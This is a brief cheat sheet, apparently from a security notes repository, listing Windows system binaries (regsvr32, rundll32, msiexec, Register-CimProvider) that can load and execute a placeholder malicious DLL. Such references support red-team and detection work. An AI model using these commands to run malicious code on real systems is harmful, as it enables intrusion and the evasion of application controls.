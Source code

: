 # DLL Execution

DLL files can often be used by attackers to execute or inject malicious code.

```powershell
regsvr32 /s .\evil.dll

# Replace "EntryPoint" with an actual entry point of DLL such as "DllMain" or
# other exported function marked with `__declspec(dllexport)`
rundll32 evil.dll,EntryPoint

# A dll path (e.g. "C:\evil.dll") must be absolute path.
rundll32 shell32.dll,Control_RunDLL C:\evil.dll

msiexec /y C:\evil.dll
msiexec /z C:\evil.dll
C:\Windows\SysWOW64\Register-CimProvider.exe -Path .\evil.dll
```